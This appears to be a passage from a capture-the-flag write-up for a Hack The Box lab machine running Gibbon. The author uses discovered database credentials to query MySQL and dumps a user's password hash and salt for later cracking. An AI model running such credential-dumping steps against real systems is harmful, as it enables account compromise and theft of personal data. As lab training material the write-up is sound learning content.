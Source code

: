 There are too much tables, so i tried viewing the contents of the names of the ones if found more "interesting", like gibbonperson, which would be more likely to contain more personal information.
```shell
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
```

and it seems it contains some more creds!
```shell
C:\xampp\mysql\bin>.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" Database
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" Database
ERROR 1044 (42000): Access denied for user 'MrGibbonsDB'@'localhost' to database 'database'

C:\xampp\mysql\bin>.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
*************************** 1. row ***************************
           gibbonPersonID: 0000000001
                    title: Ms.
                  surname: Frizzle
                firstName: Fiona
            preferredName: Fiona
             officialName: Fiona Frizzle
         nameInCharacters: 
                   gender: Unspecified
                 username: f.frizzle
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
       passwordStrongSalt: /aACFhikmNopqrRTVz2489
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
           emailAlternate: NULL
                image_240: NULL
            lastIPAddress: ::1
            lastTimestamp: 2024-10-29 09:28:59
        lastFailIPAddress: NULL
```
here the valuable info is, that we found another user f.frizzle, and a hash associated with that user:
```shell
username: f.frizzle
passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
passwordStrongSalt: /aACFhikmNopqrRTVz2489
```

The password appears to be a hash, and by using hash-identifier tool it appears to be SHA-256